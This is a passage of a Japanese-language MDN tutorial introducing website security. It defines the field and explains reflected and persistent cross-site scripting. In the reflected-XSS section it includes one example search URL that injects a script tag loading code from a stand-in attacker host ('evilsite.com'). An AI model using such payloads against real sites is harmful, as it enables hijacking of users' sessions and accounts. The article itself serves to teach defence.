 ```yaml
---
title: Web サイトのセキュリティ
slug: Learn/Server-side/First_steps/Website_security
---
```

{{LearnSidebar}}{{PreviousMenu("Learn/Server-side/First_steps/Web_frameworks", "Learn/Server-side/First_steps")}}

ウェブサイトのセキュリティでは、ウェブサイトのデザインと使用方法のあらゆる面で警戒が必要です。この入門記事だけではウェブサイトのセキュリティの第一人者にはなれませんが、脅威がどこから発生するのか、そして最も一般的な攻撃に対してウェブアプリケーションを強化するために何ができるのかを理解するのに役立ちます。

| 前提条件: | 基本的なコンピューターリテラシー                                                                                                   |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| 目標:     | ウェブアプリケーションのセキュリティに対する最も一般的な脅威と、サイトがハッキングされるリスクを減らすためにできることを理解する。 |

## ウェブサイトのセキュリティとは?

インターネットは危険な場所です。定期的に、サービス拒否攻撃によってウェブサイトが利用できなくなったり、自分のホームページに変更された (多くの場合有害な) 情報を表示したりすることがあります。その他の注目を集める事例では、何百万ものパスワード、メールアドレス、およびクレジットカードの詳細がパブリックドメインに漏洩し、ウェブサイトの利用者を個人的な当惑と経済的リスクの両方にさらしています。

ウェブサイトのセキュリティの目的は、これらの (または任意の) 種類の攻撃を防ぐことです。ウェブサイトセキュリティのより正式な定義は、_許可されていないアクセス、使用、改変、破壊、または混乱からウェブサイトを保護することです_。

効果的なウェブサイトセキュリティでは、ウェブアプリケーション、Web サーバーの設定、パスワードの作成と更新に関するポリシー、およびクライアント側のコードなど、ウェブサイト全体にわたる設計作業が必要です。すべて不吉に聞こえるかもしれませんが、サーバーサイド Web フレームワークを使用している場合、多くの一般的な攻撃に対して「デフォルトで」堅牢でよく考え抜かれた防御メカニズムがほぼ確実に有効になります。HTTPS を有効にするなど、他の攻撃は Web サーバーの設定を通じて軽減できます。最後に、明らかな間違いを犯したかどうかを確認するのに役立つ、公開されている脆弱性スキャナツールがあります。

この記事の残りの部分では、いくつかの一般的な脅威と、サイトを保護するために実行できる簡単な手順の詳細について説明します。

> **メモ:** これは導入トピックであり、ウェブサイトのセキュリティについて考え始めるのに役立つように設計されていますが、網羅的なものではありません。

## ウェブサイトのセキュリティ上の脅威

このセクションでは、最も一般的なウェブサイトの脅威をいくつか紹介し、それらがどのように軽減されるのかを示します。お読みになったところでは、ウェブアプリケーションがブラウザーから来るデータについて信頼しているか、または十分に妄想的ではない場合に、脅威が最も効果的であることに注意してください。

### クロスサイトスクリプティング (XSS)

XSS は、攻撃者がウェブサイト*を通じて*他のユーザーのブラウザーにクライアントサイドのスクリプトを挿入することを可能にする一連の攻撃を表すために使用される用語です。注入されたコードはサイトからブラウザーに送信されるため、コードは*信頼されており*、ユーザーのサイト認証 Cookie を攻撃者に送信するなどのことが可能です。攻撃者が Cookie を持っていると、あたかもユーザーであるかのようにサイトにログインし、クレジットカードの詳細へのアクセス、連絡先の詳細の表示、パスワードの変更など、ユーザーができることなら何でもできます。

> **メモ:** XSS 脆弱性は、他のどの種類のセキュリティの脅威よりも歴史的に一般的です。

XSS 脆弱性は、サイトが挿入されたスクリプトをブラウザーに返す方法に基づいて、*反映型*と*永続型*に分けられます。

- サーバーに渡されたユーザーコンテンツが*ただちに*返され、*変更されず*にブラウザー側で表示される場合に、XSS の脆弱性が反映されます。元のユーザーコンテンツのスクリプトはすべて、新しいページが読み込まれたときに実行されます。たとえば、検索語が URL パラメータとしてエンコードされ、これらの語が結果と一緒に表示されるサイト検索機能を考えてみましょう。攻撃者は悪意のあるスクリプトをパラメータとして含む検索リンク (例: `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) を作成し、それを別のユーザーにメールで送信することができます。ターゲットユーザーがこの「関連リンク」をクリックすると、検索結果が表示されたときにスクリプトが実行されます。すでに説明したように、これにより攻撃者はターゲットユーザーとしてサイトに入るために必要なすべての情報が得られ、ユーザーとして購入したり、連絡先情報を共有したりする可能性があります。
- 悪意のあるスクリプトがウェブサイトに保存され、その後、他のユーザーが知らないうちに実行されるように変更されないまま再表示されると、_永続的な_ XSS の脆弱性が発生します。たとえば、変更されていない HTML を含むコメントを受け付けるディスカッション掲示板は、攻撃者からの悪意のあるスクリプトが埋め込まれる可能性があります。コメントが表示されると、スクリプトが実行され、ユーザーのアカウントにアクセスするために必要な情報が攻撃者に送信される可能性があります。この種の攻撃は非常に有名で強力です。攻撃者は被害者と直接関わりさえしないかもしれないからです。
